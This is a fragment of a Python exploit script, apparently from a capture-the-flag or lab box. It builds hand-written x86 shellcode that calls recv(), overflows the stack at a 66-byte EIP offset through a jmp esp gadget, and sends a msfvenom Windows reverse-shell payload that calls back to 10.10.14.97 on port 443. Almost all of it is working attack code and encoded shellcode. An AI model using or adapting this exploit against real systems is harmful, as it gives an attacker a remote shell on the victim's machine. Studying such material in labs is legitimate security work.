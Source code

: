 ```python
        # push flags (0)
        full_name += b"\x31\xc9"                    # xor ecx, ecx
        full_name += b"\x51"                        # push ecx

        # push number of bytes to read from socket (500)
        full_name += b"\x66\xb9\xf4\x01"            # mov cx, 500
        full_name += b"\x51"                        # push ecx

        # push address of buffer to write to (ebp + 28)
        full_name += b"\x66\x83\xc5\x1c"            # add bp, 28
        full_name += b"\x55"                        # push ebp

        # push socket file descriptor (already in ebx at this point)
        full_name += b"\x53"                        # push ebx

        # call recv(ebx, ebp + 28, 500, 0)
        full_name += b"\xb8\xac\x82\x90\x71"        # mov eax, 0x719082ac (address of &recv() call)
        full_name += b"\xff\x10"                    # call [eax]

        full_name += b"\x90" * (95 - len(full_name))
        io.sendline(full_name)
        io.recv(17)

        print(f"[*] FullName sent! Sending code to overflow the stack and direct EIP to recv() call...")
        eip_offset = 66
        code  = b"A" * eip_offset
        code += p32(0x719023c3)                     # address of jmp esp instruction
        code += b"\x83\xC4\x38"                     # add esp, 56
        code += b"\xFF\x24\x24"                     # jmp [esp]
        io.sendline(code)

        time.sleep(2)

        # msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.97 LPORT=443 EXITFUNC=thread -f python -b '\x00\x0a\0x0d'
        buf =  b""
        buf += b"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
        buf += b"\x76\x0e\xac\xaa\xaf\x82\x83\xee\xfc\xe2\xf4\x50\x42"
        buf += b"\x2d\x82\xac\xaa\xcf\x0b\x49\x9b\x6f\xe6\x27\xfa\x9f"
        buf += b"\x09\xfe\xa6\x24\xd0\xb8\x21\xdd\xaa\xa3\x1d\xe5\xa4"
        buf += b"\x9d\x55\x03\xbe\xcd\xd6\xad\xae\x8c\x6b\x60\x8f\xad"
        buf += b"\x6d\x4d\x70\xfe\xfd\x24\xd0\xbc\x21\xe5\xbe\x27\xe6"
        buf += b"\xbe\xfa\x4f\xe2\xae\x53\xfd\x21\xf6\xa2\xad\x79\x24"
        buf += b"\xcb\xb4\x49\x95\xcb\x27\x9e\x24\x83\x7a\x9b\x50\x2e"
        buf += b"\x6d\x65\xa2\x83\x6b\x92\x4f\xf7\x5a\xa9\xd2\x7a\x97"
        buf += b"\xd7\x8b\xf7\x48\xf2\x24\xda\x88\xab\x7c\xe4\x27\xa6"
        buf += b"\xe4\x09\xf4\xb6\xae\x51\x27\xae\x24\x83\x7c\x23\xeb"
        buf += b"\xa6\x88\xf1\xf4\xe3\xf5\xf0\xfe\x7d\x4c\xf5\xf0\xd8"
        buf += b"\x27\xb8\x44\x0f\xf1\xc2\x9c\xb0\xac\xaa\xc7\xf5\xdf"
        buf += b"\x98\xf0\xd6\xc4\xe6\xd8\xa4\xab\x55\x7a\x3a\x3c\xab"
        buf += b"\xaf\x82\x85\x6e\xfb\xd2\xc4\x83\x2f\xe9\xac\x55\x7a"
        buf += b"\xd2\xfc\xfa\xff\xc2\xfc\xea\xff\xea\x46\xa5\x70\x62"
        buf += b"\x53\x7f\x38\xe8\xa9\xc2\xa5\x88\xa2\xcb\xc7\x80\xac"
        buf += b"\xab\x14\x0b\x4a\xc0\xbf\xd4\xfb\xc2\x36\x27\xd8\xcb"
        buf += b"\x50\x57\x29\x6a\xdb\x8e\x53\xe4\xa7\xf7\x40\xc2\x5f"
        buf += b"\x37\x0e\xfc\x50\x57\xc4\xc9\xc2\xe6\xac\x23\x4c\xd5"
        buf += b"\xfb\xfd\x9e\x74\xc6\xb8\xf6\xd4\x4e\x57\xc9\x45\xe8"
        buf += b"\x8e\x93\x83\xad\x27\xeb\xa6\xbc\x6c\xaf\xc6\xf8\xfa"
        buf += b"\xf9\xd4\xfa\xec\xf9\xcc\xfa\xfc\xfc\xd4\xc4\xd3\x63"
        buf += b"\xbd\x2a\x55\x7a\x0b\x4c\xe4\xf9\xc4\x53\x9a\xc7\x8a"
        buf += b"\x2b\xb7\xcf\x7d\x79\x11\x4f\x9f\x86\xa0\xc7\x24\x39"
        buf += b"\x17\x32\x7d\x79\x96\xa9\xfe\xa6\x2a\x54\x62\xd9\xaf"
```